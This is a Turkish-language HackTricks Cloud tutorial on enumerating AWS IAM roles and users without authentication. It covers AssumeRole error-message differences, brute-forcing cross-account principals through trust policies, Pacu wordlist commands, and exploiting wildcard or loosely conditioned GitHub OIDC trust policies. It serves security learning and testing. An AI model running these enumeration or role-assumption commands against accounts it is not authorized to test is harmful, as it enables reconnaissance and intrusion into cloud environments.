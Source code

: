 # AWS - IAM & STS Yetkisiz Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Bir hesapta Rolleri ve Kullanıcı Adlarını Listele

### ~~Rolü Varsayılan Brute-Force~~

{% hint style="danger" %}
**Bu teknik artık çalışmıyor** çünkü rol var olsa da olmasa da her zaman bu hatayı alırsınız:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Bunu **test edebilirsiniz**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Gerekli izinler olmadan **bir rolü varsayılamaya çalışmak**, bir AWS hata mesajı tetikler. Örneğin, yetkisizse, AWS şunları döndürebilir:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Bu mesaj, rolün varlığını onaylar ancak onun üstlenme rolü politikasının sizin üstlenmenize izin vermediğini belirtir. Aksine, **var olmayan bir rolü üstlenmeye çalışmak farklı bir hataya yol açar**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
İlginç bir şekilde, **mevcut ve mevcut olmayan roller arasında ayırt etme** yöntemi, farklı AWS hesapları arasında bile geçerlidir. Geçerli bir AWS hesap kimliği ve hedeflenen bir kelime listesi ile, hesapta bulunan rolleri herhangi bir iç sınırlama ile karşılaşmadan listeleyebilirsiniz.

Bu sorunu kötüye kullanarak potansiyel ilkeleri listelemek için bu [scripti kullanabilirsiniz](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum).

### Güven Politikaları: Brute-Force Çapraz Hesap rolleri ve kullanıcıları

Bir **IAM rolünün güven politikasını yapılandırmak veya güncellemek, o rolü üstlenmesine izin verilen AWS kaynaklarını veya hizmetlerini tanımlamayı içerir** ve geçici kimlik bilgileri alır. Politika içindeki belirtilen kaynak **varsa**, güven politikası **başarıyla** kaydedilir. Ancak, kaynak **yoksa**, geçersiz bir ilke sağlandığını belirten bir **hata üretilir**.

{% hint style="warning" %}
Bu kaynakta bir çapraz hesap rolü veya kullanıcı belirtebileceğinizi unutmayın:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Bu bir politika örneğidir:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Eğer **var olmayan bir rol** kullanırsanız, bu **hata** ile karşılaşacaksınız. Eğer rol **varsa**, politika **hatasız** bir şekilde **kaydedilecektir**. (Hata güncelleme içindir, ancak oluşturma sırasında da çalışır)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Bu süreci [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) ile otomatikleştirebilirsiniz.

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

[Pacu](https://github.com/RhinoSecurityLabs/pacu) kullanarak:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Örnekte kullanılan `admin` rolü, pacu tarafından taklit edilmek üzere **hesabınızdaki bir roldür** ve gerekli politikaları oluşturmak için gereklidir.

### Privesc

Rol kötü yapılandırılmışsa ve herkesin onu üstlenmesine izin veriyorsa:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Saldırgan bunu varsayabilir.

## Üçüncü Taraf OIDC Federasyonu

Bir **Github Actions iş akışı** okuyabildiğinizi hayal edin, bu iş akışı **AWS** içindeki bir **rol**e erişiyor.\
Bu güven, aşağıdaki **güven politikası** ile bir role erişim sağlayabilir:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Bu güven politikası doğru olabilir, ancak **daha fazla koşulun olmaması** buna güvenmemeniz gerektiğini göstermelidir.\
Bu, önceki rolün **Github Actions'tan HERHANGİ BİRİ** tarafından üstlenilebileceği anlamına gelir! Koşullarda ayrıca org adı, repo adı, env, brach gibi diğer şeyleri de belirtmelisiniz...

Bir diğer potansiyel yanlış yapılandırma, aşağıdaki gibi bir **koşul eklemektir**:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Not edin ki **joker karakter** (\*) **nokta** (:) öncesindedir. **org\_name1** gibi bir organizasyon oluşturabilir ve bir Github Action'dan **rolü üstlenebilirsiniz**.

## Referanslar

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
